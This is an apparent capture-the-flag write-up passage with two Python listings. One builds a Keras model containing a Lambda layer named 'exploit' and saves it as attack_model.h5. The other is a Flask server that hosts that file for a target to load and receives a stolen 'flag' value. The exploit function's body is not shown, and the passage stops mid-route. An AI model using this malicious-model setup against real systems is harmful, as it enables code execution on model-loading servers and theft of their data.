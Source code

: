 ```python
(X_train, y_train), (X_test, y_test) = mnist.load_data()

X_test = X_test.reshape(10000, 784)
X_test = X_test.astype("float32")
X_test /= 255
n_classes = 10
Y_test = to_categorical(y_test, n_classes)

model = Sequential()

model.add(Dense(10, input_shape=(784,)))
model.add(Lambda(exploit))

model.compile(loss="categorical_crossentropy", metrics=["accuracy"], optimizer="adam")

model.save("attack_model.h5")
```

And then the code of the Flask python server to run locally:

```python
from flask import Flask, send_from_directory, jsonify, request, Response
from flask_cors import CORS
import os
import string
import random
import json
import random
from tensorflow import keras
from keras.datasets import mnist
from keras.utils.np_utils import to_categorical
from keras.models import Sequential
from keras.layers.core import Dense, Dropout, Activation

app = Flask(__name__)
# Enable CORS for all origins (Access-Control-Allow-Origin: *)
#This is necessary to allow the server to download our attack_model.h5
CORS(app, supports_credentials=True)

def message(content: str):
    return jsonify({"message": content})

def test_model(path):
    m = keras.models.load_model(path)
    #metrics = m.evaluate(X_test, Y_test)
    return message("ok")    

@app.route('/my_file', methods=['GET'])
def serve_file():
    filename = 'attack_model.h5'

    if os.path.exists(os.path.join(".", filename)):
        response = send_from_directory(".", filename, as_attachment=True, mimetype='application/octet-stream')
        response.headers['Content-Disposition'] = 'attachment; filename=model.h5'
        return response
    else:
        return jsonify({'error': 'File not found'}), 404

@app.route('/', methods=['GET'])
def read_flag():
    # Get the 'flag' query parameter from the request
    flag = request.args.get('flag')
    # Print the value of 'flag' to the console
```